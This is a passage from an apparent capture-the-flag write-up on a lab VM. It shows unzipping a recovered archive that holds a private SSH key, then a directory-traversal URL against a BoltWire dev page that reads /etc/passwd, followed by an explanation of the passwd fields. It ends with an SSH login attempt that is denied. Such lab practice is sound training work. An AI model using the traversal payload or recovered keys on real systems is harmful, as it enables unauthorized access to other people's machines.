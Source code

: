 ```
parrot# unzip save.zip 
Archive:  save.zip
[save.zip] id_rsa password: 
  inflating: id_rsa                  
  inflating: todo.txt                
parrot# ls
id_rsa	save.zip  todo.txt
parrot# cat todo.txt 
- Figure out how to install the main website properly, the config file seems correct...
- Update development website
- Keep coding in Java because it's awesome

jp
parrot# 
```

Who is jp so the hint is I have to go back to bolt wire on port 8080 to check username by go through `http://192.168.1.113:8080/dev/index.php?p=action.search&action=../../../../../../../etc/passwd`

and I found this
`jeanpaul:x:1000:1000:jeanpaul,,,:/home/jeanpaul:/bin/bash`

**Explanation**

This line is a record in the /etc/passwd file, which is a system file in Unix-like operating systems (such as Linux). Each line in this file represents a user account on the system. Here's a breakdown of the fields separated by colons:

1. Username (jeanpaul): This is the login name of the user. It's the name the user types when logging into the system.
Password (x): In modern systems, this field used to contain the encrypted password. However, it's usually just set to x nowadays, indicating that the actual password is stored in the /etc/shadow file for security reasons.
2. User ID (1000): This is the numerical identifier for the user. It's used by the system internally to identify users.
Group ID (1000): This is the numerical identifier for the primary group of the user. Each user is associated with one primary group.
3. User Info (jeanpaul,,,): This field traditionally contained additional information about the user, such as full name, phone number, etc. But it's largely unused nowadays and typically just contains commas.
Home directory (/home/jeanpaul): This is the path to the user's home directory. When the user logs in, they start in this directory by default.
4. Shell (/bin/bash): This is the user's default shell. It determines the command interpreter the user will get when they log in. In this case, it's /bin/bash, which is the Bash shell.
So, in summary, the line jeanpaul:x:1000:1000:jeanpaul,,,:/home/jeanpaul:/bin/bash describes a user account named jeanpaul with a user ID and group ID both set to 1000, a home directory of /home/jeanpaul, and a default shell of /bin/bash.

OK now I have credential to access to the vm via ssh let's try

```
parrot# ssh -i id_rsa jeanpaul@192.168.1.113
Enter passphrase for key 'id_rsa': 
jeanpaul@192.168.1.113's password: 
Permission denied, please try again.
jeanpaul@192.168.1.113's password: 

parrot# 
```
